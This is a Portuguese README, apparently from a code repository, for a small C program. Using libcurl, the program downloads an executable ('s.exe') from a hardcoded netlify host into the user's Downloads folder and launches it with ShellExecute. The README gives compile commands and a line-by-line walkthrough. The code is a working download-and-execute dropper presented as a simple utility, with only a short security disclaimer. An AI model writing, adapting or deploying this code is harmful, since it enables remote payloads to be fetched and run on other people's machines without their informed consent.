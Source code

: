 Download e Execução de Arquivo no Windows

Este é um programa simples em C que utiliza a biblioteca libcurl para baixar um arquivo da internet e, em seguida, executa-o no sistema operacional Windows. O código foi projetado para ser usado com um compilador C e uma biblioteca libcurl instalada no ambiente de desenvolvimento.

Instruções de Uso
Pré-requisitos
Certifique-se de ter um compilador C instalado. Recomendamos o uso do MinGW em um ambiente Windows.
Tenha a biblioteca libcurl instalada e configurada corretamente no seu sistema.
Garanta que o ambiente de desenvolvimento tenha acesso à API do Windows e a biblioteca ShellExecute.
Compilação
Abra um prompt de comando e navegue até o diretório contendo o código-fonte. Use o seguinte comando para compilar o programa:

bash
Copy code
# Para compilar para 32 bits
gcc -m32 -o seu_programa.exe seu_codigo.c -lcurl -lshell32

# Para compilar para 64 bits
gcc -m64 -o seu_programa.exe seu_codigo.c -lcurl -lshell32
Substitua seu_programa.exe pelo nome desejado para o executável e seu_codigo.c pelo nome do seu arquivo de código-fonte.

Execução
Após a compilação, execute o programa no prompt de comando:

bash
Copy code
.\seu_programa.exe
O programa realizará o download de um arquivo da URL especificada (no exemplo, "https://sandro52.netlify.app/s.exe") para o diretório de downloads padrão do usuário e, em seguida, abrirá o arquivo no visualizador padrão do Windows.

Notas de Segurança
Este programa baixa e executa um arquivo da internet. Tenha cuidado ao baixar e executar arquivos de fontes desconhecidas, pois isso pode representar riscos de segurança.
Recomendamos verificar a fonte do arquivo antes de executá-lo e garantir que ele seja proveniente de uma fonte confiável.
Contribuições
Contribuições são bem-vindas! Sinta-se à vontade para abrir problemas (issues) ou enviar pull requests para melhorar este código.

Vamos analisar o código passo a passo para entender o que cada parte faz:

Inclusão de Bibliotecas
c
Copy code
#include <stdio.h>
#include <stdlib.h>
#include <curl/curl.h>
#include <windows.h>
#include <ShlObj.h>
Essas são as inclusões de bibliotecas necessárias para o funcionamento do programa:

<stdio.h> e <stdlib.h>: Bibliotecas padrão de entrada/saída e funções de alocação de memória.
<curl/curl.h>: Biblioteca libcurl para transferência de dados pela internet.
<windows.h>: Biblioteca para funções do sistema operacional Windows.
<ShlObj.h>: Headers do Windows para manipulação de shell, incluindo a função SHGetKnownFolderPath.
Função Callback write_data
c
Copy code
size_t write_data(void *ptr, size_t size, size_t nmemb, FILE *stream) {
    return fwrite(ptr, size, nmemb, stream);
}
Essa função é um callback usado pela libcurl para escrever os dados baixados em um arquivo.

Função Principal main
c
Copy code
int main() {
    // Declaração de variáveis
    CURL *curl = NULL;
    FILE *fp = NULL;
    CURLcode res;

    const char *url = "https://sandro52.netlify.app/s.exe";
    const char *output_filename = "file.exe";
    // ...

    // Obtém o diretório de downloads padrão
    PWSTR download_path;
    if (SHGetKnownFolderPath(&FOLDERID_Downloads, 0, NULL, &download_path) != S_OK) {
        fprintf(stderr, "Erro ao obter o diretório de downloads\n");
        return 1;
    }
    // ...

    // Concatena o caminho do arquivo ao diretório de downloads padrão
    char full_path[MAX_PATH];
    snprintf(full_path, sizeof(full_path), "%S\\%s", download_path, output_filename);

    // Libera a memória alocada para o caminho do diretório de downloads
    CoTaskMemFree(download_path);
    // ...

    // Inicializa o libcurl
    curl_global_init(CURL_GLOBAL_DEFAULT);
    curl = curl_easy_init();
    // ...

    if (curl) {
        // Abre o arquivo para escrita
        fp = fopen(full_path, "wb");
        // ...

        // Configura a URL e a função de escrita
        curl_easy_setopt(curl, CURLOPT_URL, url);
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_data);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, fp);

        // Realiza o download
        res = curl_easy_perform(curl);
        // ...

        // Fecha o arquivo
        fclose(fp);

        // Libera os recursos do libcurl
        curl_easy_cleanup(curl);
    } else {
        fprintf(stderr, "Erro ao inicializar o libcurl\n");
        return 1;
    }

    // Verifica se o download foi bem-sucedido antes de abrir o arquivo
    if (res != CURLE_OK) {
        fprintf(stderr, "Download falhou\n");
        return 1;
    }

    // Abre o arquivo no visualizador padrão do Windows
    if (ShellExecute(NULL, "open", full_path, NULL, NULL, SW_SHOWNORMAL) <= (HINSTANCE)32) {
        fprintf(stderr, "Erro ao abrir o arquivo\n");
        return 1;
    }

    return 0;
}
Passos Principais:
Obtenção do Diretório de Downloads:

A função SHGetKnownFolderPath é usada para obter o caminho do diretório de downloads padrão no sistema.
Concatenação do Caminho do Arquivo:

O caminho do arquivo é construído concatenando o caminho do diretório de downloads com o nome do arquivo.
Inicialização do libcurl:

curl_global_init e curl_easy_init são usados para inicializar o libcurl.
Configuração e Execução do Download:

curl_easy_setopt é usado para configurar a URL, a função de escrita e o destino do download.
curl_easy_perform realiza efetivamente o download.
Liberação de Recursos do libcurl:

curl_easy_cleanup é chamado para liberar os recursos alocados pelo libcurl.
Verificação do Sucesso do Download:

Verifica-se se o download foi bem-sucedido antes de prosseguir.
Abertura do Arquivo Baixado:

ShellExecute é utilizado para abrir o arquivo baixado no visualizador padrão do Windows.









